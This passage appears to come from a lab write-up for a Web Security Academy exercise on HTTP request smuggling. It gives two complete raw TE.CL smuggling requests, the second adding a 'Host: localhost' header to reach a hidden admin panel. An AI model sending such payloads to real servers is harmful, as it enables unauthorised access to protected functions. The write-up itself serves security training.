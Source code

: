 * HTTP Request Smuggler Extension
* Manual requesting with "differential responses" or "timings techniques"
* With [smuggler.py](https://github.com/gwen001/pentest-tools/blob/master/smuggler.py)

### Smuggle the request

An attempt to smuggle the request is made by changing the `GET` to `POST` and adding `Transfer-Encoding` and `Content-Length` Header. In Burp, the option "update content length" must be unchecked, and `\r\n\r\n` must be added after the final `0` for the `TE.CL` request smuggling.

```
POST / HTTP/1.1
Host: 0af2004803e19d8dc040db3100680078.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

### Adding the `Host` header

A problem arises. the back-end blocks the request. In fact, in this case, the back-end needs the header `Host: localhost` for the second request. The byte's number needs to be changed accordingly. Using this request, access to the admin panel is obtained.

```
POST / HTTP/1.1
Host: 0af2004803e19d8dc040db3100680078.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
:::


## Resources
